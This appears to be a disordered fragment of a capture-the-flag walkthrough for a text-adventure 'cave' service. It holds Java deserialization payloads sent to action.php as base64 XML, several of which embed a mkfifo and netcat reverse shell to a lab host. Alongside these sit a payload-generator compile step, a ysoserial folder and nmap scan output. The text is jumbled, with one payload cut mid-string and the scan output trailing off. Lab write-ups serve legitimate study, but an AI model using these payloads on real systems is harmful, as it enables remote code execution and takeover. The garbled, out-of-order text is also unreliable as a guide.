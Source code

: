 
action.php?<xml>rO0ABXNyAAZBY3Rpb275vE3ugB8ZOwIAA0wAB2NvbW1hbmR0ABJMamF2YS9sYW5nL1N0cmluZztMAARuYW1lcQB+AAFMAAZvdXRwdXRxAH4AAXhwdAAGd2hvYW1pdAADaGV5dAAA</xml>

rO0ABXNyAAZBY3Rpb275vE3ugB8ZOwIAA0wAB2NvbW1hbmR0ABJMamF2YS9sYW5nL1N0cmluZztMAARuYW1lcQB+AAFMAAZvdXRwdXRxAH4AAXhwdABedHJ5aW5nJyc7rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.201.61.44 9001>/tmp/f;echo 'tAA...



:~/Cave# javac RPG.java
root@ip-10-201-61-44:~/Cave# ls
Action.class  RPG.class  RPG.java  Serialize.class  ysoserial
root@ip-10-201-61-44:~/Cave# 
:~/Cave# java RPG
123 : rO0ABXNyAAZBY3Rpb275vE3ugB8ZOwIAA0wAB2NvbW1hbmR0ABJMamF2YS9sYW5nL1N0cmluZztMAARuYW1lcQB+AAFMAAZvdXRwdXRxAH4AAXhwdABedHJ5aW5nJyc7cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMjAxLjYxLjQ0IDkwMDE+L3RtcC9mO2VjaG8gJ3QAA2hleXQAAA==

action.php?&lt;xml&gt;rO0ABXNyAAZBY3Rpb275vE3ugB8ZOwIAA0wAB2NvbW1hbmR0ABJMamF2YS9sYW5nL1N0cmluZztMAARuYW1lcQB+AAFMAAZvdXRwdXRxAH4AAXhwdABedHJ5aW5nJyc7cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMjAxLjYxLjQ0IDkwMDE+L3RtcC9mO2VjaG8gJ3QAA2hleXQAAA==;/xml&gt;

action.php?<xml>rO0ABXNyAAZBY3Rpb275vE3ugB8ZOwIAA0wAB2NvbW1hbmR0ABJMamF2YS9sYW5nL1N0cmluZztMAARuYW1lcQB+AAFMAAZvdXRwdXRxAH4AAXhwdABedHJ5aW5nJyc7cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMjAxLjYxLjQ0IDkwMDE+L3RtcC9mO2VjaG8gJ3QAA2hleXQAAA==</xml>


You find yourself in a cave, what do you do?
action.php?<xml>rO0ABXNyAAZBY3Rpb275vE3ugB8ZOwIAA0wAB2NvbW1hbmR0ABJMamF2YS9sYW5nL1N0cmluZztMAARuYW1lcQB%2BAAFMAAZvdXRwdXRxAH4AAXhwdABddHJ5aW5nIjtybSAvdG1wL2Y7bWtmaWZvIC90bXAvZjtjYXQgL3RtcC9mfC9iaW4vc2ggLWkgMj4mMXxuYyAxMC44LjE5LjEwMyAxMjM0ID4vdG1wL2Y7ZWNobyAidAADYWJjdAAA</xml>

──(witty㉿kali)






```bash
:~/Cave# nmap -sC -sV -Pn -p- -T4 10.201.116.18
...
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Document
2222/tcp open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
3333/tcp open  dec-notes?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, JavaRMI, NULL, RPCCheck, SMBProgNeg, X11Probe, kumo-server: 
|     You find yourself in a cave, what do you do?
|   FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     You find yourself in a cave, what do you do?
|_    Nothing happens
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3333-TCP:V=7.80%I=7%D=9/25%Time=68D5C2FF%P=x86_64-pc-linux-gnu%r(NU
SF:LL,2D,"You\x20find\x20yourself\x20in\x20a\x20cave,\x20what\x20do\x20you
SF:\x20do\?\n")%r(GenericLines,3D,"You\x20find\x20yourself\x20in\x20a\x20c
SF:ave,\x20what\x20do\x20you\x20do\?\nNothing\x20happens\n")%r(LPDString,3
SF:D,"You\x20find\x20yourself\x20in\x20a\x20cave,\x20what\x20do\x20you\x20
SF:do\?\nNothing\x20happens\n")%r(JavaRMI,2D,"You\x20find\x20yourself\x20i
SF:n\x20a\x20cave,\x20what\x20do\x20you\x20do\?\n")%r(kumo-server,2D,"You\
SF:x20find\x20yourself\x20in\x20a\x20cave,\x20what\x20do\x20you\x20do\?\n"
SF:)%r(GetRequest,3D,"You\x20find\x20yourself\x20in\x20a\x20cave,\x20what\
SF:x20do\x20you\x20do\?\nNothing\x20happens\n")%r(HTTPOptions,3D,"You\x20f
SF:ind\x20yourself\x20in\x20a\x20cave,\x20what\x20do\x20you\x20do\?\nNothi
SF:ng\x20happens\n")%r(RTSPRequest,3D,"You\x20find\x20yourself\x20in\x20a\
```